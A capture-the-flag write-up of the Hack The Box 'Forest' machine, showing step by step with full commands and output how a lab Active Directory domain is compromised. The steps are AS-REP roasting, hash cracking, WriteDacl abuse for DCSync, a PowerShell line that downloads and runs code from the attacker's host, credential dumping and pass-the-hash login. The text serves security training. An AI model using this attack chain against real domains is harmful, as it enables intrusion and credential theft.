




# Forest



## User Flag

### Enumeration

As always, we start out with an nmap scan. We can see that there are a few ports open, but the most interesting is `ldap`. This is a good indicator that this is a domain controller. We can also see that the domain is `htb.local` and the hostname is `FOREST`. 
```shell
$ sudo nmap -sC -sV 10.10.10.161 -oN nmap_forest

Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-16 13:48 CST
Nmap scan report for 10.10.10.161
Host is up (0.028s latency).
Not shown: 989 closed tcp ports (reset)
PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2023-11-16 19:55:47Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open  xU       Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-11-16T19:55:50
|_  start_date: 2023-11-16T19:26:49
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2023-11-16T11:55:52-08:00
|_clock-skew: mean: 2h46m53s, deviation: 4h37m09s, median: 6m52s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.38 seconds
```

### Netexec User Enumeration
We can use the [NetExec](https://www.netexec.wiki/) tool (new fork of CrackMapExec) to enumerate users in the domain. We will use the `smb` option and since we do not have credentials, we will try it with a null session by providing a blank username and password. From the output we do get a list of users back and we can add them to our `domain_users.txt` list. We will ignore the `SM_*` and `HealthMailbox*` users.

```text
$ netexec smb 10.10.10.161 -u '' -p '' --users
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.161    445    FOREST           [+] htb.local\: 
SMB         10.10.10.161    445    FOREST           [*] Trying to dump local users with SAMRPC protocol
SMB         10.10.10.161    445    FOREST           [+] Enumerated domain user(s)
SMB         10.10.10.161    445    FOREST           htb.local\Administrator                  Built-in account for administering the computer/domain
SMB         10.10.10.161    445    FOREST           htb.local\Guest                          Built-in account for guest access to the computer/domain
SMB         10.10.10.161    445    FOREST           htb.local\krbtgt                         Key Distribution Center Service Account
SMB         10.10.10.161    445    FOREST           htb.local\DefaultAccount                 A user account managed by the system.
SMB         10.10.10.161    445    FOREST           htb.local\$331000-VK4ADACQNUCA           
SMB         10.10.10.161    445    FOREST           htb.local\SM_2c8eef0a09b545acb           
SMB         10.10.10.161    445    FOREST           htb.local\SM_ca8c2ed5bdab4dc9b           
SMB         10.10.10.161    445    FOREST           htb.local\SM_75a538d3025e4db9a           
SMB         10.10.10.161    445    FOREST           htb.local\SM_681f53d4942840e18           
SMB         10.10.10.161    445    FOREST           htb.local\SM_1b41c9286325456bb           
SMB         10.10.10.161    445    FOREST           htb.local\SM_9b69f1b9d2cc45549           
SMB         10.10.10.161    445    FOREST           htb.local\SM_7c96b981967141ebb           
SMB         10.10.10.161    445    FOREST           htb.local\SM_c75ee099d0a64c91b           
SMB         10.10.10.161    445    FOREST           htb.local\SM_1ffab36a2f5f479cb           
SMB         10.10.10.161    445    FOREST           htb.local\HealthMailboxc3d7722           
SMB         10.10.10.161    445    FOREST           htb.local\HealthMailboxfc9daad           
SMB         10.10.10.161    445    FOREST           htb.local\HealthMailboxc0a90c9           
SMB         10.10.10.161    445    FOREST           htb.local\HealthMailbox670628e           
SMB         10.10.10.161    445    FOREST           htb.local\HealthMailbox968e74d           
SMB         10.10.10.161    445    FOREST           htb.local\HealthMailbox6ded678           
SMB         10.10.10.161    445    FOREST           htb.local\HealthMailbox83d6781           
SMB         10.10.10.161    445    FOREST           htb.local\HealthMailboxfd87238           
SMB         10.10.10.161    445    FOREST           htb.local\HealthMailboxb01ac64           
SMB         10.10.10.161    445    FOREST           htb.local\HealthMailbox7108a4e           
SMB         10.10.10.161    445    FOREST           htb.local\HealthMailbox0659cc1           
SMB         10.10.10.161    445    FOREST           htb.local\sebastien                      
SMB         10.10.10.161    445    FOREST           htb.local\lucinda                        
SMB         10.10.10.161    445    FOREST           htb.local\svc-alfresco                   
SMB         10.10.10.161    445    FOREST           htb.local\andy                           
SMB         10.10.10.161    445    FOREST           htb.local\mark                           
SMB         10.10.10.161    445    FOREST           htb.local\santi
```


Our domain users list looks like this:
```shell
$ cat domain_users.txt                     
sebastien
lucinda
andy
mark
santi
svc_alfresco
```

### Service Principal Names (SPNs)
We can use the `GetUserSPNs.py` tool from Impacket to enumerate users that have SPNs set. Unfortunately, we do not get back any results.

```shell
$ GetUserSPNs.py -request  -dc-ip 10.10.10.161 "htb.local/"                 
Impacket v0.11.0 - Copyright 2023 Fortra

No entries found!
```

### Kerbrute
We can use `kerbrute` to verify the users we found, and the plus side is that if any of the users found have the `UF_DONT_REQUIRE_PREAUTH` flag set, it will automatically request a TGT for them without needing their password. We can use the `--dc` flag to specify the domain controller, and the `-d` flag to specify the `htb.local` domain. 

We run the tool and we get back a crackable hash for the `svc-alfresco` user!

```shell
$ kerbrute userenum domain_users.txt -d htb.local --dc 10.10.10.161

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 01/13/24 - Ronnie Flathers @ropnop

2024/01/13 12:33:30 >  Using KDC(s):
2024/01/13 12:33:30 >   10.10.10.161:88

2024/01/13 12:33:30 >  [+] VALID USERNAME:       andy@htb.local
2024/01/13 12:33:30 >  [+] VALID USERNAME:       santi@htb.local
2024/01/13 12:33:30 >  [+] VALID USERNAME:       sebastien@htb.local
2024/01/13 12:33:30 >  [+] svc-alfresco has no pre auth required. Dumping hash to crack offline:
$krb5asrep$18$svc-alfresco@HTB.LOCAL:fe242e557a1f5f97b4c0f8d976dcaf96$c70a0a6ec6177e45f58b6a78b3366fd760f3ab1bbd5eebf4fe7e07193233329050979b8bb4bc9a1b15f03472d4eb3a13ebee7163eca3a5c6e1858d7376952d0458ed7d4b762167ce60c1265750c7c95fc531378e7b90d6ebb006f25d9b9eda3f5dc953cbcbae50bda1ccef0a8a6a971d712768807a77cd0e2971affee365f71337a4ce103e35f2b8a710bbd8ea4d43302b3d3d42a36ba13d6951040d3551b68a93979e3b33e012677ba8140fc3d3f3d1dc33f60b29891b16b984d66a124d8cc6de83033d924a28cf799fb5d4cd525e8c657ae6b6d8b7f364c1af21e3e8f4ad66d34f930673ec4a5848a9031b92523583aec56650db8c19790b64
2024/01/13 12:33:30 >  [+] VALID USERNAME:       svc-alfresco@htb.local
2024/01/13 12:33:30 >  [+] VALID USERNAME:       lucinda@htb.local
2024/01/13 12:33:30 >  [+] VALID USERNAME:       mark@htb.local
2024/01/13 12:33:30 >  Done! Tested 6 usernames (6 valid) in 0.038 seconds

```


#### Hashcat
Now we can pipe that hash into `hashcat` to crack it. We reveal the password is `s3rvice`.
```shell
$ hashcat -m 18200 alfresco_hash /usr/share/wordlists/rockyou.txt

..SNIP

$krb5asrep$23$svc-alfresco@HTB.LOCAL:99a3675b6635696d76a606ccf9df6cc3$ded247742de63973c88f59e95c196184711ada67e6ed655ae5d2da574e8fca8706a8967d9bd0d2d8e2432ec9c1c58807cca4e099c3eeceb4dc52a69d4f4505c8c7e2c8e81e2249fafc0b8b90247f2bbf9779e
6d856450bc891789a2b02258044c82f8bcb9fbc3b5fd2353a2d6d5cbeee318649929c682db806e5d06af9e149c535b3d7a712b048fc9f754f6927a0c406dce90a6bddd6d0355e29376cdd7aebfc49191e84ede8df43451748ea944947675c125e95073a648da05cada3a1623718dcbb5313e885ad1f
217ccd2a1687a8cf1befc4d2d0229e70b09768c09de56f14e7a09e8a8d87:s3rvice

.. SNIP
```

The credentials can be verified using `netexec`again.
```text
$ netexec smb 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.161    445    FOREST           [+] htb.local\svc-alfresco:s3rvice 
```

#### Optional Hydra
If we know there is no account lockout policy in place, we could also bruteforce the password using a tool such as `hydra`. This would take longer, and again there would have to be no lockout policy set.
```shell
$ hydra -L domain_users.txt -P fake_passwordfile smb://10.10.10.161 -I
.. SNIP

[DATA] attacking smb://10.10.10.161:445/
[445][smb] host: 10.10.10.161   login: svc-alfresco   password: s3rvice
1 of 1 target successfully completed, 1 valid password found
```

### Evil-WinRM as svc-alfresco
Now that we have proven credentials, we need a way to access the system. Our initial nmap did not show RDP open, we can quickly check to see if the WinRM service is open, and it appears that it is.

```text
$ nmap -p5985 10.10.10.161                               
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-13 12:43 CST
Nmap scan report for htb.local (10.10.10.161)
Host is up (0.030s latency).

PORT     STATE SERVICE
5985/tcp open  wsman

Nmap done: 1 IP address (1 host up) scanned in 0.09 seconds
```

Now we can attempt to connect using `evil-winrm` and the `svc-alfresco` account, and we are successful!

```shell
$ evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice                                   
.. SNIP

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> whoami;hostname
htb\svc-alfresco
FOREST
```

### User.txt

```shell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> GCI c:\Users\svc-alfresco\ -Include user.txt -Recurse

    Directory: C:\Users\svc-alfresco\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---       11/17/2023  11:11 AM             34 user.txt

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> cat C:\Users\svc-alfresco\Desktop\user.txt
730b*****************************
```

## Machine Flag

### Bloodhound-Python
Let's run `bloodhound-python` which is a python version of the original bloodhound tool. We can use the `-c all` flag to enumerate all the data. Once we get the data back we can then import it into BloodHound to visualize the data.

```shell
$ bloodhound-python -ns 10.10.10.161 -u svc-alfresco -p s3rvice -d htb.local -c all 
INFO: Found AD domain: htb.local
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (htb.local:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: FOREST.htb.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: FOREST.htb.local
INFO: Found 32 users
INFO: Found 76 groups
INFO: Found 2 gpos
INFO: Found 15 ous
INFO: Found 20 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: EXCH01.htb.local
INFO: Querying computer: FOREST.htb.local
INFO: Done in 00M 09S
```

### Bloodhound GUI
After importing the scan results into BloodHound we have some interesting data. This first picture shows us the `Shortest Path to Domain Admin`.
<figure><figcaption></figcaption></figure>


We note a few things but while poking around we unraveled the `Group Delegated Control` for `svc-alfresco` and we see that through multiple group memberships, they are in the account operators group. This gives them `GenericAll` access over pretty much any group (except Domain Admins and Administrator accounts). This is a pretty big deal, and we can use this to our advantage. 
<figure><figcaption></figcaption></figure>

 If we look back at the first photo, `Exchange Windows Permissions` has `WriteDacl` over the `HTB.LOCAL` domain. With these permissions we can grant ourselves `DCSync` rights and fully compromise the domain.

 ### Exchange Windows Permissions
 First things up, we need to abuse the `GenericAll` permissions over `Exchange Windows Permissons` to get a user in the group. Let's create a new user called `hackman` with the password `toasty!`, and add them to the `Exchange Windows Permissions` group.
```shell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user hackman toasty! /add /domain
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group "Exchange Windows Permissions" hackman /add /domain
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group "Exchange Windows Permissions"
Group name     Exchange Windows Permissions
Comment        This group contains Exchange servers that run Exchange cmdlets on behalf of users via the management service. Its members have permission to read and modify all Windows accounts and groups. This group should not be deleted.

Members

-------------------------------------------------------------------------------
hackman
The command completed successfully.
```

### WriteDacl to DCSync
Now to abuse the `WriteDacl` privs. Lucky for us, bloodhound actually shows you how to abuse this.

<figure><figcaption></figcaption></figure>

First we need the `PowerView` powershell module. I am hosting it on my machine, and using `IEX` to download it to the target. We then create a credential object for `hackman` and add the `DCSync` rights to the `HTB.LOCAL` domain.
```shell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.15:8000/PowerView.ps1')
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $password = convertto-securestring 'toasty!' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $credential = New-Object System.Management.Automation.PSCredential('HTB\hackman', $password)
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-DomainObjectAcl -Credential $credential -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity hackman -Rights DCSync

```

### SecretsDump.py
Once we have DCSync rights, we can then use `secretsdump.py` to dump the domain credentials. We can see that we have the domain `Administrator` hash, and netexec to double confirm that it is valid!

```shell
$ secretsdump.py htb.local/hackman@10.10.10.161

Impacket v0.11.0 - Copyright 2023 Fortra

Password:

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied     
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets     


htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::                                              
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
.. SNIP
```

```text
$ netexec smb 10.10.10.161 -u 'Administrator' -H 32693b11e6aa90eb43d32c72a07ceea6                                                                
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.161    445    FOREST           [+] htb.local\Administrator:32693b11e6aa90eb43d32c72a07ceea6 (Pwn3d!)
```


### Evil-WinRM as Administrator
Now we can use the `Administrator` hash to login to the system using `evil-winrm`.

```shell
$ evil-winrm -i 10.10.10.161 -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6
.. SNIP

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
htb\administrator
```

### Root.txt
Finally, we can grab the root flag.

```shell
*Evil-WinRM* PS C:\Users\Administrator\Documents> gci c:\Users\Administrator -Recurse -Include "root.txt"


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---       11/17/2023  10:24 PM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Documents> type C:\Users\Administrator\Desktop\root.txt
10942bdcd36ec98f8d7d2a3e3a09ad9d

```
